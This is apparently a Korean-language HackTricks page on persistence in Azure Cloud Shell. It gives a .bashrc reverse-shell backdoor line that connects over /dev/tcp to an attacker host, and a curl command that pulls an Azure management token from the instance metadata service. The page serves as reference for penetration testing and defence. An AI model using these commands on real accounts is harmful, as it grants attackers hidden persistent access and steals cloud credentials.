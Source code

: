 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shell은 지속적인 저장소와 자동 인증을 통해 Azure 리소스를 관리할 수 있는 명령줄 액세스를 제공합니다. 공격자는 지속적인 홈 디렉토리에 백도어를 배치하여 이를 악용할 수 있습니다:

* **Persistent Storage**: Azure Cloud Shell의 홈 디렉토리는 Azure 파일 공유에 마운트되며 세션이 종료된 후에도 그대로 유지됩니다.
* **Startup Scripts**: .bashrc와 같은 파일은 각 세션 시작 시 자동으로 실행되어 클라우드 셸이 시작될 때 지속적인 실행을 허용합니다.

Example backdoor in .bashrc:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
이 백도어는 사용자가 클라우드 셸을 종료한 후에도 5분 동안 명령을 실행할 수 있습니다.

또한 Azure의 메타데이터 서비스에 인스턴스 세부정보 및 토큰을 쿼리합니다:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
{{#include ../../../banners/hacktricks-training.md}}
